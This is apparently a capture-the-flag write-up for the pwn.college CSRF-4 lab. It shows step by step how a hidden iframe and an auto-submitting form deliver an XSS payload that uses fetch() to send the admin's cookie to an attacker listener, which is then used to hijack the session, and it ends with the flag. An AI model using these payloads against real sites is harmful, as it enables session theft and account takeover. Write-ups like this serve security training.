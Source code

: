 # CSRF-4 Write-up — pwn.college

## 🧠 Goal

Use a **CSRF (Cross-Site Request Forgery)** vulnerability to trick the admin into executing an XSS payload by embedding a malicious iframe in your post. The iframe hosts an HTML file that auto-submits a form with the payload.

---

## 🛠️ Step-by-Step Exploitation

### 1. Create a post with an iframe to your server

```bash
PAYLOAD="content=%3Ciframe%20src%3D%22http%3A//hacker.localhost%3A1337/%22%20width%3D%220%22%20height%3D%220%22%3E%3C/iframe%3E&publish=on"
LENGTH=$(echo -n "$PAYLOAD" | wc -c)

echo -e "POST /draft HTTP/1.0\r
Host: challenge.localhost\r
Cookie: auth=hacker|1337\r
Content-Type: application/x-www-form-urlencoded\r
Content-Length: $LENGTH\r
\r
$PAYLOAD" | nc challenge.localhost 80
```
This publishes a post with a hidden <iframe> pointing to your server on port 1337.

### 2. Create a malicious index.html payload
```bash
<!-- index.html -->
<html>
  <body>
    <form action="http://challenge.localhost/ephemeral" method="GET" id="csrfForm">
      <input type="hidden" name="msg" value="<script>fetch('http://hacker.localhost:1338/?c='+document.cookie)</script>">
    </form>
    <script>
      document.getElementById('csrfForm').submit();
    </script>
  </body>
</html>
```
Save this to index.html in the same directory where you will run your HTTP server.


### 3. Start the malicious server
```bash
python3 -m http.server 1337
```
This will serve your malicious index.html page to the admin when they visit your iframe.

### 4. Trigger the admin to visit the post
```
/challenge/victim
```
Output:
```bash
Visiting http://challenge.localhost:80/
Logging in as admin...
Visited the attacker's website (http://hacker.localhost:1337/)...
Visited! Go check if the attack worked!
```
### 5. Capture the stolen cookie
In another terminal:
``` 
nc -lvnp 1338
```
Output:
```bash
GET /?c=auth=admin|.QX5kzMzwSM0IzMyEzW} HTTP/1.1
```
You have successfully stolen the admin's session cookie.

### 6. Use the stolen admin cookie
```bash
printf "GET / HTTP/1.0\r\nHost:challenge.localhost\r\nCookie: auth=admin|.QX5kzMzwSM0IzMyEzW}\r\n\r\n" | nc challenge.localhost 80
```
This returns:
```bash
<h2>Author: admin</h2><b>YOUR POST:</b> pwn.college{csAoPfax0C99uPTOPNas95n4QSq.QX5kzMzwSM0IzMyEzW}
```

---

## Flag
```bash
pwn.college{csAoPfax0C99uPTOPNas95n4QSq.QX5kzMzwSM0IzMyEzW}
```
---
